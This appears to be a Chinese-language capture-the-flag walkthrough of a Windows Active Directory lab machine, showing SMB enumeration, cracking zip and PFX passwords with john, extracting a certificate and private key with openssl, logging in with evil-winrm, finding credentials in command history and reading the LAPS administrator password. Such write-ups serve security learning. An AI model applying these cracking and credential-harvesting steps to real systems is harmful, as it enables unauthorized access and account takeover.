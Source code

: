 # 信息收集

## nmap-端口扫描

![image-20250427101212742](Timelaps-Windows_active/image-20250427101212742.png)

## 445-SMB

![image-20250427103034721](Timelaps-Windows_active/image-20250427103034721.png)

![image-20250427103045776](Timelaps-Windows_active/image-20250427103045776.png)

smb中有个zip文件下载到本地，解压需要密码，使用zip2john将zip文件转化为hash然后使用john破解密码

```shell
zip2john winrm_backup.zip >> winrm.hash
john --wordlist=/usr/share/wordlists/rockyou.txt winrm.hash
```

![image-20250427103107609](Timelaps-Windows_active/image-20250427103107609.png)

```
supremelegacy
```

解压zip文件之后是个pfx文件，pfx文件中有证书，私钥，公钥，可以使用openssl提取,提取时需要密码，可以使用pfx2john破解，和zip2john破解是一样的步骤

```shell
pfx2john legacyy_dev_auth.pfx >> legacyy.hash
john --wordlist=/usr/share/wordlists/rockyou.txt
```

![image-20250427104200706](Timelaps-Windows_active/image-20250427104200706.png)

```txt
thuglegacy
```

pfx文件中包含公钥，私钥，证书，可以使用openssl提取

```shell
提取证书
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out server.pem
提取私钥
openssl rsa -in server.pem -out prv.key
提取公钥
openssl x509 -in server.pem -out pub.crt
```

![image-20250427110620631](Timelaps-Windows_active/image-20250427110620631.png)

![image-20250427110634364](Timelaps-Windows_active/image-20250427110634364.png)

# get-shell

evil-winrm支持使用公私钥连接

![image-20250427110648005](Timelaps-Windows_active/image-20250427110648005.png)

查看命令行历史记录，其中有svc_deploy用户的凭证

![image-20250427110659126](Timelaps-Windows_active/image-20250427110659126.png)

```
svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
```

## 提权

svc_deploy用户是LAPS_Readers组成员，允许读取LAPS，直接读取管理员密码

![image-20250427114128008](Timelaps-Windows_active/image-20250427114128008.png)

![image-20250427114100783](Timelaps-Windows_active/image-20250427114100783.png)

```
Administrator:8T0xR+)@Q[yzD$G9]!$X$F{P
```

![image-20250427114358941](Timelaps-Windows_active/image-20250427114358941.png)

也可以使用脚本获取LAPS

[n00py/LAPSDumper: Dumping LAPS from Python](https://github.com/n00py/LAPSDumper/tree/main)

![image-20250427114943587](Timelaps-Windows_active/image-20250427114943587.png)